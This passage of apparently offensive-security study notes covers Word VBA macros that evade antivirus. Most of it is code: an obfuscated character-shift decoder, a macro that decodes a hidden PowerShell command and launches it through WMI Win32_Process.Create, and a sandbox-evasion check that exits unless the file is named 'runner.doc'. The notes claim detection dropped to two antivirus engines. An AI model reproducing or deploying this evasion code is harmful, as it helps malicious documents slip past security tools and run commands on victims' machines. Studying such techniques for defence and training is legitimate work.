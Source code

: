     ```
    
    Produces long numeric string (encrypted payload).
    
- **VBA Decryption Functions:**
    
    ```visual-basic
    Function Pears(Beets)
        Pears = Chr(Beets - 17)
    End Function
    
    Function Strawberries(Grapes)
        Strawberries = Left(Grapes, 3)
    End Function
    
    Function Almonds(Jelly)
        Almonds = Right(Jelly, Len(Jelly) - 3)
    End Function
    
    Function Nuts(Milk)
        Do
        Oatmilk = Oatmilk + Pears(Strawberries(Milk))
        Milk = Almonds(Milk)
        Loop While Len(Milk) > 0
        Nuts = Oatmilk
    End Function
    
    ```
    
- Usage:
    
    ```visual-basic
    Sub MyMacro()
        Dim Apples As String, Water As String
        Apples = "129128136118131132121118125125049..." ' encrypted string
        Water = Nuts(Apples)
        GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
    End Sub
    ```
    
    📌 **Result:**
    
    - Detection reduced to **2 AVs**.

### **Bypassing Heuristic Detection**

- **Problem**: Even encrypted strings may trigger heuristic analysis (sandboxing/emulation).
- **Solution**: Detect emulation by checking document properties.
    - AV sandboxes often rename files.
    - Check if document name matches expected (`runner.doc`).
    - Exit if mismatch.
    
    ```visual-basic
    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
      Exit Function
    End If
    ```
    